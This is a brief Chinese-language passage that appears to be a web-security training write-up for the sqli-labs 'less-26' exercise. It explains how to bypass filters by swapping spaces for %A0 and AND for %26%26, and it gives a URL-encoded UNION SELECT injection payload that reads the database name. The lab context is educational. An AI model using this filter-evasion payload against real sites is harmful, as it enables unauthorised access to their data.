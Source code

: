 ![](/pics/WEB集训/二/21.png)

![](/pics/WEB集训/二/22.png)

## less-26

已经能猜到表中有三个字段，所以就不测字段，然后用%A0 替代空格，用%26%26(&&)替代 AND，写出 payload：

```mysql
0%27%A0union%A0select%A01,database(),3%26%26%271
```

因为注释符都被过滤了，所以语句最后通过加上“and '1”来绕过
